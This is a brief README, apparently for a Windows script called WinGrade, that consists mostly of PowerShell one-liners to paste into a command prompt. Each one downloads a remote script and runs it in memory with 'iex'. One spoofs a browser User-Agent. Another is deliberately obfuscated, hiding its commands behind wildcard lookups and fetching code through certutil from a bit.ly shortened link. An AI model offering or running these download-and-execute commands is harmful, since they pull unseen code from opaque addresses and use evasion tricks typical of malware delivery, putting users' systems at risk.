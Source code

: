 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:

powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"

or

powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"

or

iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeComm
and.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Sk
ip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{$_.Name-ilik
e'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join"`r`n"))


In the Windows Command Prompt.


This Script is still in the early Alpha release!!! And has some bugs
